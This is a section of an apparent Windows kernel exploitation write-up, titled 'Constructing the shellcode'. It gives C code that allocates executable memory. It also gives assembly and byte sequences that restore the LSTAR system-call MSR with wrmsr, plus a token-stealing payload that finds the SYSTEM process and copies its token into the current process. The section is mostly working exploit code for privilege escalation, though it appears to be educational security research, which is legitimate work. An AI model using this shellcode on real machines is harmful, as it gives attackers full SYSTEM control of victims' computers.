 # <a name="12_shellcode"></a> 12. Constructing the shellcode  
For the shellcode, I allocated a 500-byte buffer and initialized it with NOPs.  
```c
unsigned char* shellcode = NULL;
shellcode = (unsigned char*)VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
RtlFillMemory(shellcode, 500, 0x90);
```

As it was mentioned earlier, the first thing the shellcode should do is to restore the original system call handler - *KiSystemCall64Shadow*{: style="color: LightGreen"}. Its address can be dynamically computed by getting its offset in ntoskrnl and then adding it to the kernel base address.  
To restore it, the *wrmsr*{: style="color: LightGreen"} instruction can be used again, like so:  

```asm
mov    ecx, 0xc0000082
mov    edx, high_part_pKiSystemCall64Shadow
mov    eax, low_part_pKiSystemCall64Shadow
wrmsr
```

I compiled the above assembly and then copied the produced bytes into the shellcode buffer:  
```c
// restore LSTAR MSR to point to KiSystemCall64Shadow
memcpy((unsigned char*)(shellcode + 0), "\xb9\x82\x00\x00\xc0", 5);            // mov    ecx, 0xc0000082
memcpy((unsigned char*)(shellcode + 5), "\xba", 1);                            // mov    edx, high_part_pKiSystemCall64Shadow
temp = (DWORD)(kernelAddress.KiSystemCall64Shadow >> 32);
memcpy((unsigned char*)(shellcode + 6), &temp, 4);
memcpy((unsigned char*)(shellcode + 10), "\xb8", 1);                           // mov    eax, low_part_pKiSystemCall64Shadow
temp = (DWORD)(kernelAddress.KiSystemCall64Shadow & 0xffffffff);
memcpy((unsigned char*)(shellcode + 11), &temp, 4);
memcpy((unsigned char*)(shellcode + 15), "\x0f\x30", 2);                       // wrmsr
```

Next, the actual token-stealing payload can be inserted. I used the shellcode from this blog post: [Windows Kernel Exploitation – HEVD x64 Stack Overflow](https://vulndev.io/2022/07/02/windows-kernel-exploitation-hevd-x64-stackoverflow/).

```asm
mov    rax,QWORD PTR gs:0x188    ; KPCRB.CurrentThread (_KTHREAD)
mov    rax,QWORD PTR [rax+0xb8]  ; APCState.Process (current _EPROCESS)
mov    r8,rax                    ; Store current _EPROCESS ptr in RBX

loop:
mov    r8,QWORD PTR [r8+0x448]   ; ActiveProcessLinks
sub    r8,0x448                  ; Go back to start of _EPROCESS
mov    r9,QWORD PTR [r8+0x440]   ; UniqueProcessId (PID)
cmp    r9,0x4                    ; SYSTEM PID? 
jne    0x13                      ; Loop until PID == 4

mov    rcx,QWORD PTR [r8+0x4b8]  ; Get SYSTEM token
and    cl,0xf0                   ; Clear low 4 bits of _EX_FAST_REF structure
mov    QWORD PTR [rax+0x4b8],rcx ; Copy SYSTEM token to current process
```

